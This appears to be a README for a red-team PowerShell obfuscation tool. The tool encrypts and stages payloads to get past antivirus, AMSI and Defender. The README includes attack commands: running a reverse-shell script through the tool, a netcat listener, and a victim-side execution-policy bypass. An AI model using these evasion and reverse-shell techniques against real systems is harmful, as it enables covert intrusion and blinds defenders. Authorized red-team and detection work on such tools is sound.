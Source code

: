 # 🕉️ Narashima - The Stealth God of Payload Delivery

> Advanced PowerShell payload obfuscation and evasion framework for red teamers.

---

## ⚔️ Overview

**Narashima** is a red team payload generation tool built to **evade antivirus**, **bypass AMSI**, and **slip past Microsoft Defender** using multi-stage, obfuscated, and encrypted PowerShell payloads. With layered XOR + Base64 encoding and clean staging, it delivers fully memory-resident payloads with zero detections.

---

## 🔥 Key Features

- 🛡️ AMSI & Defender Bypass, AV Bypass with 0 Detection rate  
- 🔐 XOR + Base64 Multi-Stage Encryption  
- 🧬 Function and Variable Name and backticks and lot of Obfuscation  
- 📦 Multi-layer Payload Staging  
- 🔑 Custom XOR Key Encryption   
- Function Mapping
---

![Narashima Demo](./assets/narashima.gif)


## Virustotal Results

![file-ps1](./assets/file_ps1_virustotal.png)
![god](./assets/god_txt_virustotal.png)
![god-killer](./assets/god_killer_txt_virustotal.png)

## 🚀 Usage

### Attacker side

- Modify any Powershell script inside shell/* and change the IP and Port for reverse shell

```bash

pip3 install -r requirements.txt (recommended above or equal to python 3.12.x)

chmod +x narashima

./narashima -o /tmp/rev.ps1 -s -d -n -x -i -f -b --decimal -l 2 --random-backticks  --key "<your-secret-key>" /shell/Invoke-PowerShellTcp.ps1
```
- open the listening port on your machine

```bash
nc -lvnp <port>
```


### Victim side

- Now the exe will give three files (file.ps1, god.txt, god-killer.txt)
- Place all three files on the victim machine and run file.ps1

```powershell
powershell -ep bypass ./file.ps1
```

### 🧩 Available Options

- `target` – Your raw PowerShell payload  
- `-o, --output` – Output path for the final obfuscated/encrypted payload  
- `--key` – XOR encryption key (default: NarashimaKey)  
- `-l, --level` – String obfuscation level (0 = Random, 1–5 = Increasing intensity)  
- `-s, --strings` – Enable string obfuscation  
- `-d, --data-types` – Obfuscate common PowerShell data types (arrays, booleans, etc.)  
- `-n, --nishang` – Obfuscate known patterns in Nishang payloads  
- `-c, --comments` – Inject misleading/random comments  
- `-x, --hex-ip` – Convert IP addresses into hexadecimal format  
- `-i, --random-spaces` – Randomize indentation and whitespace  
- `-f, --functions` – Obfuscate function names and structures  
- `-b, --use-backticks` – Use PowerShell backticks for breaking strings  
- `--decimal` – Encode final payload as decimal values  
- `-j` – Obfuscate True or False variables  
- `--random-backticks` – Enable random backticks
- `--randomization-type` – {r,d,h} Type of randomization (r: Random, d: Dictionary, h: Hybrid)
- `-F` - Function Mapping (for understanding the obfuscated functions)

---
## Important notification

For now, I have shared the payload, which will be working fine under the /shell directory (This is Narashima version-1 and still under development)


---
## 🛡 Why a Compiled Binary?

Shipping Narashima as an executable helps protect the underlying techniques from reverse engineering, signature creation, and sandbox analysis.
Even if your payload is fully obfuscated and encrypted, making the source code publicly available allows defenders to:

- Understand your obfuscation and encryption logic
- Create detection signatures or YARA rules
- Upload samples to VirusTotal and reverse the pattern

This allows red teamers to safely use zero-detection payloads without exposing the tool’s inner workings to defenders. This adds an additional layer of protection, making reverse engineering and static analysis much harder.

---

## 🧠 Execution Flow

1. **file.ps1**   
   - Base64-decodes `god.txt`

2. **god.txt**  
   - Decrypt with secret key and decodes the content of `god-killer.txt`  
   - Executes it using `Invoke-Expression`

3. **god-killer.txt**  
   - Final payload: encrypted, base64-encoded, obfuscated  

```
cmd.ps1 
   ↓
file.ps1 
   ↓
god.txt ( obfuscated + Base64 encoded script) 
   ↓
god-killer.txt (obfuscation + Encrypted + Base64 ) 
   ↓
Reverse Shell
```

---

## 🎯 Real-World Use

✔️ Tested against:

- Windows 10 / 11 with **Defender enabled**  
- AMSI-enabled environments  

With proper payloads and staging, **zero detections** on upload scanners like VirusTotal.

---

## 🛡️ Evasion Stack

- ✅ AMSI bypass  
- ✅ Defender real-time protection evasion  
- ✅ PowerShell command obfuscation  
- ✅ Function and variable renaming  
- ✅ Memory-only execution  
- ✅ XOR + Base64 dual encoding  
- ✅ Multi-layer loader chain  

---
## 🔐 Multi-Layered Payload Hardening
Obfuscation: All PowerShell payloads are dynamically obfuscated at generation time. Variable names, strings, and execution flow are randomized on each build.

- Encryption: Payloads are encrypted using AES with a unique key per session. The key is never hardcoded — it's delivered at runtime through a separate channel or decryptor stub.
- Base64 Encoding: The final stage payload is base64 encoded for safe transport and execution, making static analysis even harder.

## 🧬 Why This Matters
Even if a SOC team or blue team captures the payload and drops it into a sandbox:

- They won’t be able to decrypt it without the key.
- Execution will fail silently or break flow due to encryption dependencies.
- Static or behavioural analysis becomes ineffective without prior knowledge of the payload structure and key delivery logic.

----
## ⚠️ Disclaimer

This tool is intended **solely for educational use** and **authorized red team assessments**.  
Any **unauthorized usage** against systems you do not own or have permission to test is **strictly forbidden** and may be illegal.

---

## 🙏 Credits

Built with ❤️ for offensive security researchers for the red teaming and infosec community.

Inspired by Narasimha, the fierce and powerful protector in mythology — half-lion, half-man, full destruction.

Special thanks to the following legends whose work inspired the creation of Narashima:
- @klezVirus for Chameleon — a brilliant resource in payload obfuscation and evasion.
- @tokyoneon for Chimera — a solid foundation for offensive tradecraft and creative payload delivery.

```
Respect to the community. This project stands on the shoulders of giants.
```
---

## 📎 License

MIT License. See the `LICENSE` file for full details.
